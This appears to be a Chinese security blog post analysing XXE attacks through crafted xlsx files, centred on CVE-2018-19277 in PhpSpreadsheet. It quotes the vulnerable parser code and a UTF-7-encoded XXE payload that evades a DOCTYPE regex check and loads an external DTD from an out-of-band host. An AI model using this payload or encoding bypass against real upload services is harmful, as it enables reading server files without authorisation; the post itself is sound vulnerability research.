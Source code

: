 # xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。
![-w499](media/15552288460409/15553096661880.jpg)  

解压xlsx得到一堆xml文件。
![-w369](media/15552288460409/15553098644527.jpg)  

解压后的结构
![-w274](media/15552288460409/15553101464498.jpg)  

aaaa...
![-w1432](media/15552288460409/15553102717304.jpg)  

test-sheet1
![-w1436](media/15552288460409/15553104462469.jpg)  

直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变
![-w851](media/15552288460409/15553141607574.jpg)
但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities  
第三方解析库：tealeg/xlsx、360EntSecGroup-Skylar/excelize



## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种
